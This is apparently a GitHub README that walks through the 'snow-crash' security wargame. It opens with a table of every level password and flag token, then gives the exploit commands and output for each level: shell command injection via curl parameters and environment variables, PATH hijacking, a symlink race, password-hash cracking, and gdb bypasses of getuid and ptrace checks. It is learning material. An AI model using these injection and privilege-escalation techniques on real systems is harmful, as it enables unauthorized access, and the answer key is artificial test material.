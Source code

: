 # snow-crash
This project will be an introduction to cyber security.

## Passwords

| User    | Password                               |
| :-----: |:--------------------------------------:|
| level00 | level00                                |
| flag00  | nottoohardhere                         |
| level01 | x24ti5gi3x0ol2eh4esiuxias              |
| flag01  | abcdefg                                |
| level02 | f2av5il02puano7naaf6adaaf              |
| flag02  | ft_waNDReL0L                           |
| level03 | kooda2puivaav1idi4f57q8iq              |
| level04 | qi0maab88jeaj46qoumi7maus              |
| level05 | ne2searoevaevoem4ov4ar8ap              |
| level06 | viuaaale9huek52boumoomioc              |
| level07 | wiok45aaoguiboiki2tuin6ub              |
| level08 | fiumuikeil55xe9cu4dood66h              |
| flag08  | quif5eloekouj29ke0vouxean              |
| level09 | 25749xKZ8L7DkSCwJkT9dyv6f              |
| flag09  | f3iji1ju5yuevaus41q1afiuq              |
| level10 | s5cAJpM8ev6XHw998pRWG728z              |
| flag10  | woupa2yuojeeaaed06riuj63c              |
| level11 | feulo4b72j7edeahuete3no7c              |
| level12 | fa6v5ateaw21peobuub8ipe6s              |
| level13 | g1qKMiRpXf53AWhDaU7FEkczr              |
| level14 | 2A31L79asukciNyi8uppkEuSx              |
| flag14 | 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ |

## Script

### level00

```bash
level00@SnowCrash:~$ find / -user flag00 2>/dev/null
/usr/sbin/john
/rofs/usr/sbin/john
```

```bash
level00@SnowCrash:~$ cat /usr/sbin/john
cdiiddwpgswtgt
```

- [identify encryption method](https://www.dcode.fr/identification-chiffrement)
- [decrypt cesar code](https://www.dcode.fr/chiffre-cesar)

### level01

```bash
flag00@SnowCrash:~$ cat /etc/passwd | grep flag01
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```

Using ``john the ripper`` I was able to find corresponding password.

```bash
user@hostname:~$ echo "42hDRfypTqqnw" > /tmp/password-file && john /tmp/password-file && john -show /tmp/password-file
Loaded 1 password hash (descrypt, traditional crypt(3) [DES 128/128 SSE2-16])
No password hashes left to crack (see FAQ)
?:abcdefg
1 password hash cracked, 0 left
```

### level02

Open ``level02.pcap`` in wireshark then Statistics -> Conversations -> Tab TCP -> Follow Stream

### level03

```bash
level03@SnowCrash:~$ strings ./level03 | grep Exploit
/usr/bin/env echo Exploit me
level03@SnowCrash:~$ cp /bin/getflag ./echo
level03@SnowCrash:~$ PATH=$PWD ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

### level04

```bash
level04@SnowCrash:~$ curl localhost:4747?x='$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

### level05

```bash
echo "getflag > /tmp/log" > /opt/openarenaserver/foo
sleep 120
cat /tmp/foo
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

### level06

```bash
level06@SnowCrash:~$ echo '[x {$z(getflag)}]' > file
level06@SnowCrash:~$ ./level06 file shell_exec
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag x Here is your token : wiok45aaoguiboiki2tuin6ub
```

### level07

```bash
level07@SnowCrash:~$ LOGNAME='`getflag`' ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
### level08

```
level08@SnowCrash:~$ mv token toto && ./level08 toto
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

### level09

```bash
level09@SnowCrash:~$ echo '#include <stdio.h>
#include <stdlib.h>

int main(void) {
    int passwd[26] = { 102,  52, 107, 109, 109,  54, 112, 124,  61, 130, 127, 112, 130, 110, 131, 130, 68,  66, 131,  68, 117, 123, 127, 140, 137,  10 };

    for (int i = 0; i < 26; i++)
        printf("%c", (passwd[i] - i >= 20) ? passwd[i] - i : 20);
    printf("\n");
    return (EXIT_SUCCESS);
}' > main.c && gcc -std=gnu99 main.c && ./a.out
f3iji1ju5yuevaus41q1afiuq
```
```
level09@SnowCrash:~$ su flag09
Password:
Don't forget to launch getflag !
flag09@SnowCrash:~$ getflag
Check flag.Here is your token : s5cAJpM8ev6XHw998pRWG728z
```

### level10

Run in parallele these 3 commands.
```bash
for i in $(seq 1 10000); do netcat -lv 6969 2>&1 | grep -v "Connection\|toto\|.*( )*."; done
```
```bash
for i in $(seq 1 10000); do rm -f toto && ln -s token toto && rm -f toto && echo "toto" >toto; done
```
```bash
for i in $(seq 1 10000); do ./level10 toto 127.0.0.1; done
```
It will eventually give :
```
level10@SnowCrash:~$ for i in $(seq 1 10000); do netcat -lv 6969 2>&1 | grep -v "Connection\|toto\|.*( )*."; done
woupa2yuojeeaaed06riuj63c
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

### level11

```bash
level11@SnowCrash:~$ curl localhost:5151/'$(getflag) > /tmp/flag' && cat /tmp/flag
Password: Erf nope..
GET /Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s HTTP/1.1
```

### level12

```bash
level12@SnowCrash:~$ echo '#!/bin/bash' > /tmp/FLAG && echo 'getflag > /tmp/FLAG' >> /tmp/FLAG && chmod 777 /tmp/FLAG && curl 'localhost:4646?x=`/???/flag`&y=toto' && cat /tmp/FLAG
.Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```
### level13

```bash
level13@SnowCrash:~$ gdb level13
(gdb) b getuid
Breakpoint 1 at 0x8048380
(gdb) r
Starting program: /home/user/level13/level13
Breakpoint 1, 0xb7ee4cc0 in getuid () from /lib/i386-linux-gnu/libc.so.6
(gdb) s
Single stepping until exit from function getuid,
which has no line number information.
0x0804859a in main ()
(gdb) set $eax=4242
(gdb) info register $eax
eax            0x1092   4242
(gdb) c
Continuing.
your token is 2A31L79asukciNyi8uppkEuSx
[Inferior 1 (process 1956) exited with code 050]
```

### level14

```bash
level14@SnowCrash:~$ gdb /bin/getflag
(gdb) b getuid
Breakpoint 1 at 0x80484b0
(gdb) b ptrace
Breakpoint 2 at 0x8048540
(gdb) r
Starting program: /bin/getflag
Breakpoint 2, 0xb7f146d0 in ptrace () from /lib/i386-linux-gnu/libc.so.6
(gdb) n
Single stepping until exit from function ptrace,
which has no line number information.
0x0804898e in main ()
(gdb) set $eax=42
(gdb) c
Continuing.
Breakpoint 1, 0xb7ee4cc0 in getuid () from /lib/i386-linux-gnu/libc.so.6
(gdb) n
Single stepping until exit from function getuid,
which has no line number information.
0x08048b02 in main ()
(gdb) si
0x08048b06 in main ()
(gdb) si
0x08048b0a in main ()
(gdb) set $eax=3014
(gdb) c
Continuing.
Check flag.Here is your token : 7QiHafiNa3HVozsaXkawuYrTstxbpABHD8CPnHJ
[Inferior 1 (process 2134) exited normally]
```
